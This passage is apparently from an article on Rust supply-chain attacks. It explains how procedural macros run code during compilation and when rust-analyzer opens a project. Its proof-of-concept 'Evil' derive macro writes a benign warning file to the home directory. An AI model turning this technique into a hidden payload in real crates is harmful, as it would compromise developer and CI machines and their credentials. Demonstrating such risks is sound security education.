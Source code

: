 

## Malicious macros

Rust's macros is code that runs at compile or `cargo check` time. Can it be abused?

It turns out that **yes**! The ability to run code at compile time means that any of your dependencies can download malware or exfiltrate files from your computer.

This risk is amplified by the fact that `rust-analyzer` also expands the macros when loading a project, thus **a machine can be compromised just by opening with a code editor (with the `rust-analyzer` plugin) a folder of a crate whose one of its dependencies is backdoored .**

Whether it be a direct or an indirect dependency!

These attacks are particularly juicy for attackers because develpoers' and CI/CD machines (the targets of these attacks) often hold credentials that they can use to pivot or spread more malware.


Here are two examples of malicious macros.

First, an [Attribute macro](https://doc.rust-lang.org/reference/procedural-macros.html#attribute-macros):

**[lib.rs](https://github.com/skerkour/black-hat-rust/blob/main/extra/backdoors/bad_macro/malicious_macro/src/lib.rs)**
```rust
use proc_macro::TokenStream;
use std::path::Path;

fn write_warning(file: &str) {
    let home = std::env::var("HOME").unwrap();
    let home = Path::new(&home);
    let warning_file = home.join(file);

    let message = "Warning! You just ran a malicious package. Please read https://kerkour.com/rust-crate-backdoor for more information.";
    let _ = std::fs::write(warning_file, message);
}

#[proc_macro_derive(Evil)]
pub fn evil_derive(_item: TokenStream) -> TokenStream {
    write_warning("WARNING_DERIVE");

    "".parse().unwrap()
}
```

Which once used by a crate is enough to compromise it and all its dependents.

**[lib.rs](https://github.com/skerkour/black-hat-rust/blob/main/extra/backdoors/bad_macro/backdoored_lib/src/lib.rs)**
```rust
use malicious_macro::Evil;

#[derive(Evil)]
pub struct RandomStruct {}
```
